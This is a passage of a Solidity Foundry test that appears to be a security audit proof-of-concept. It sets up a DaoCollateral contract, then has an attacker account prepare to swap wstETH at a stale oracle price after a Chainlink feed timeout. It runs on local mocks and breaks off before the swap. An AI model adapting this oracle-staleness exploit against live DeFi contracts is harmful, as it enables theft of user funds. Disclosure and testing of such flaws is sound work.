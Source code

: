```solidity

        // 7. Deploy and Initialize DaoCollateral
        DaoCollateral daoCollateralImpl = new DaoCollateral();
        uint256 mintFee = 100;
        bytes memory daoCollateralInitData = abi.encodeWithSelector(DaoCollateral.initialize.selector, address(_registry), mintFee);
        ERC1967Proxy daoCollateralProxy = new ERC1967Proxy(address(daoCollateralImpl), daoCollateralInitData);
        _daoCollateralPoc = DaoCollateral(address(daoCollateralProxy));
        _registry.setContract(CONTRACT_DAO_COLLATERAL, address(_daoCollateralPoc));

        // 8. Grant necessary roles for DaoCollateral
        _registryAccess.grantRole(ETH0_MINT, address(_daoCollateralPoc));
        _registryAccess.grantRole(ETH0_BURN, address(_daoCollateralPoc));

        // 9. Set Eth0 mint cap
        _registryAccess.grantRole(MINT_CAP_OPERATOR, _admin); // Grant admin the role to set mint cap
        _eth0Poc.setMintCap(_DEFAULT_MINT_CAP); // Set a default large mint cap

        vm.stopPrank();

        assertEq(_mockWstEthToken.balanceOf(_user), _INITIAL_SUPPLY, "User should have initial wstETH supply");
        assertEq(_mockWstEthToken.balanceOf(_attacker), _INITIAL_SUPPLY, "Attacker should have initial wstETH supply");
    }

    function testPocLidoOracleTimeoutUsesStalePrice() public {
        // --- Setup Phase ---
        int256 initialPrice = int256(11 * 10**(_WSTETH_DECIMALS - 1));
        uint256 initialTimestamp = block.timestamp;

        vm.prank(_admin);
        _chainlinkMockLidoPoc.setRoundData(1, initialPrice, initialTimestamp, initialTimestamp, 1);

        uint256 priceBefore = _classicalOraclePoc.getPrice(address(_mockWstEthToken));
        assertEq(priceBefore, uint256(initialPrice), "Price before should be initial price");

        // --- Time Travel Phase ---
        vm.warp(block.timestamp + _TIMEOUT_SECONDS + 1 days);

        // --- Stale Price Update Phase ---
        int256 newMarketPrice = int256(10 * 10**(_WSTETH_DECIMALS - 1));
        uint256 newTimestamp = block.timestamp;

        vm.prank(_admin);
        _chainlinkMockLidoPoc.setRoundData(2, newMarketPrice, newTimestamp, newTimestamp, 2);

        // --- Verification Phase ---
        uint256 priceAfter = _classicalOraclePoc.getPrice(address(_mockWstEthToken));
        assertEq(priceAfter, uint256(newMarketPrice), "Price after should be the new market price (reported as fresh)");

        // --- Consequence Demonstration: Attacker swaps at the stale (but accepted) price ---
        vm.startPrank(_attacker); // Attacker performs the swap
        _mockWstEthToken.approve(address(_daoCollateralPoc), _SWAP_AMOUNT);

        // uint256 eth0Cap = _eth0Poc.getMintCap(); // Commented out as unused
        // console.log("ETH0 Cap before attacker swap:", eth0Cap);
        // uint256 eth0TotalSupply = _eth0Poc.totalSupply(); // Commented out as unused
        // console.log("ETH0 TotalSupply before attacker swap:", eth0TotalSupply);

```